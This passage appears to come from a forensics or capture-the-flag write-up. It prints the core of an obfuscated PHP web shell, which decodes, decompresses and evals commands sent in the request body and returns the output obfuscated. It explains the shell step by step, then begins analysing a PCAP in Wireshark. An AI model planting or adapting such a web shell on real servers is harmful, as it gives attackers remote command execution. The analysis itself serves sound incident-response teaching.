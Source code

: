 ```php
    
    return $o;
}

# Receive inputs
if(@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m)==1) {
    # Process the HTTP obfuscated request
    @ob_start();
    @eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));
    $o=@ob_get_contents();
    @ob_end_clean();

    # Creates an obfuscated response
    $r=@base64_encode(@x(@gzcompress($o),$k));
    print("$p$kh$r$kf");
}

?>
```

For this part, and for the following ones, you will need to understand PHP, how it works and [read the documentation](https://www.php.net/docs.php). I will not dive into the code small parts, if you want to talk about it you can contact me. In simple terms this shell does the following:
1. Defines variables for the obfuscation.
2. defines an obfuscation function called `x($t,$k)`. Obfuscation is bidirectional thanks to the `^` operator.
3. Receives an [INPUT](https://www.php.net/manual/en/function.file-get-contents.php) and filter it with [preg_match](https://www.php.net/manual/en/function.preg-match) to remove obfuscation words.
4. Get the HTTP request payload, decodes it and then [uncompress](https://www.php.net/manual/en/function.gzuncompress).
5. Using [eval](https://www.php.net/manual/en/function.eval) executes the requested command on the server.
6. Prepares the output of the command [compressing](https://www.php.net/manual/en/function.gzcompress.php) it, encoding it in base64.
7. Return the output to the user (response) wrapping the data in between `$p$kh` and `$kf` variables.

I really hope you understand what happened there hehe, if not, learn PHP and come back! I will wait here.

The shell is straightforward, it receives obfuscated commands and respond obfuscated outputs of those commands. Let us see what we have in the PCAP now.

### 3.- Exploring PCAP
PCAP are Packet captures from the network, they are helpful to understand what happened at a network level. They contain all the information that was transfered FROM and TO the attacked server. To explore them we are going to use a tool called [Wireshark](https://www.wireshark.org/).

Open the `19-05-21_22532255.pcap` file using Wireshark.
